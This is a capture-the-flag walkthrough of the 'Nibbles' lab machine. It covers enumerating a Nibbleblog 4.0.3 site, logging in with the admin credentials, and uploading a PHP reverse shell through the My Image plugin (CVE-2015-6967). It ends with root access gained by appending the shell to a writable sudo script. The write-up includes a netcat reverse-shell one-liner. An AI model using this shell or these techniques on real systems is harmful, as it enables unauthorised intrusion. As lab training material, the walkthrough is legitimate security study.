# Nibbles - Linux (Easy)

## Summary

This box hosts a vulnerable version of Nibbleblog, an opensource CMS, as evident in the name - This box is easily exploited by Metasploit, which I will be covering. However, as always, I will be prioritizing manual exploitation. In this box, I will be abusing PHP plugins in Nibbleblog to call a reverse shell, giving me a user foothold in the process. My Privilege Escalation methodology involves manipulating backup scripts to gain root access. 

## Enumeration

I began Enumeration by running an `Nmap` script, which was slightly underwhelming, only returning SSH (Port 22) and HTTP (Port 80).

```
sudo nmap -A -T4 -sV $machine_IP

-A - Aggresive Scan
-T4 - Aggresive Timing Template
-sV Version Scan
```



### Gobuster Recon

Enumerating Port 80, I ran `gobuster` against the target VM to discover directories to further my reconnaissance.

```
gobuster dir -x "html, css, json, php, xml" -u "$machine_IP" -w "wordlist" 2> /dev/null -k -t 50

"-x" - flag to specify directory extensions
"-w" - specify wordlist
"2> /dev/null" - redirecting errors to /dev/null for cleaner output
"-k" - Skip SSL certificate verification
"-t 50" - 50 Threads
```



The only result in the initial Gobuster scan was `index.html`. Navigating to this page returned a "Hello World" message. Opening the page source provided the first real indication of the target running on Nibbleblog. 



Following this, I re-ran the initial Gobuster scan, appending the `/nibbleblog` directory to the $machine_IP URL which returned more results this time around.



The gobuster scan results included a certain `admin.php` path that renders a login page. 



Traversing through the rest of the directories led me to `http://$machine_IP/nibbleblog/content/private/users.xml`



Another file returned in the Gobuster results is a `README` file which provides the version number making it possible to look for version specific vulnerabilities in Searchsploit and Metasploit.

```
====== Nibbleblog ======
Version: v4.0.3
Codename: Coffee
Release date: 2014-04-01
...
```

This box is interesting in that it blocks IP addresses for 5 minutes after 5 unsuccessful login attempts when makes standard brute-forcing tricky. With a combination of guesswork and googling, I was able to successfully log in. 

## Getting a Shell

### Manual Exploitation

The [Curesec](https://curesec.com/blog/article/blog/NibbleBlog-403-Code-Execution-47.html) Proof of Concept (PoC) for Nibbleblog Code Execution covers CVE-2015-6967 and since we've got the Admin Credentials, we're able to manipulate the "My Image" Plugin - the CMS keeps the original extension that is not validated - this makes it possible to upload a PHP reverse shell from [Pentest Monkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

```
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $machine_IP 8082 >/tmp/f"); ?>
```

### Getting user access

After curating the payload, the next stage involves Activating the "My Image" plugin and uploading the PHP shell. 


After ensuring that my netcat listener is in place, I navigate to the `image.php` reverse shell to run it, triggering the reverse shell that is caught by my netcat listener, providing me with a user foothold.





### Replicating with Metasploit

Searching for Nibbleblog 4.0.3 provides us with the `multi/http/nibbleblog_file_upload` module on Metasploit. This module requires certain parameters to be set

```
USERNAME - admin
PASSWORD - nibbles
TARGETURI - /nibbleblog/
```



Running this module returns a user level command prompt, which can be manipulated to gain root access.





## Privilege Escalation

Running `sudo -l` to identify what can be run as the root user, shows that the user can run a certain `monitor.sh` script as root without requiring a superuser password. This is made easier by the fact that `monitor.sh` is can be written by all entities. 





In this case, we are able to recycle the revshell payload by changing the LPORT number from the initial reverse shell to get user foothold and appending it to the end of `monitor.sh`. 





Meanwhile we prepend running the script with `sudo` and we've got a reverse shell, this time with superuser privileges. 



### Completion


